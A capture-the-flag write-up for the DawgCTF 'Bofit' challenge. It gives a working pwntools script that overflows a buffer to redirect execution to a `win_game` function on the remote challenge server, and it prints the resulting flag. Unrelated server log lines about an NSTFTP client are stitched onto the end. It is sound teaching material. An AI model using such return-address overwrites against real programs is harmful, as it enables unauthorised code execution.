 Open the binary with GDB and run `info func` to see function addresses. There is a function called `win_game` which I probably need to jump to to get the flag.

```c
0x0000000000401256  win_game
0x00000000004012a9  play_game
0x000000000040141a  welcome
0x00000000004014b6  main
```

The application requests a random input of one character or a string where the buffer overflow occurs. To solve it, automate the character inputs until the overflow option becomes available. This happens on the `Shout it` prompt. Then send an overflow payload to set the return address to the `win_game` address. Once the current function completes, it will return to that function and get the flag.

```python
from pwn import *

elf = ELF('./bofit')

def run_until_bof(t):
    while True:
        l = t.readline()
        if b'BOF it' in l:
            t.sendline(b'B')
        elif b'Pull it' in l:
            t.sendline(b'P')
        elif b'Twist it' in l:
            t.sendline(b'T')
        elif b'Shout it' in l:
            break

t = remote('umbccd.io', 4100)
t.recvuntil(b'start!\n')
t.sendline(b'B')

run_until_bof(t)

# 'haaaaaaa' found by sending a large pattern and trapping the error in GDB
offset = cyclic_find(b'haaaaaaa', n=8)
buf = offset * b'A' + p64(elf.symbols['win_game'])
t.sendline(buf)

t.recvline()
t.sendline('A')

t.interactive()
```

Running this gets the flag from the server.

```shell
➜  Bofit ./exploit.py
[*] '/home/carlm/DawgCTF/Bofit/bofit'
[+] Opening connection to umbccd.io on port 4100: Done
[*] Switching to interactive mode
DawgCTF{n3w_h1gh_sc0r3!!}
[*] Got EOF while reading in interactive
```


[486626]: Talking to NSTFTP-client-go-dawgs
[486626]: Error disconnect, code 42
[487191]: Talking to NSTFTP-client-go-dawgs
[487191]: Error disconnect, code 43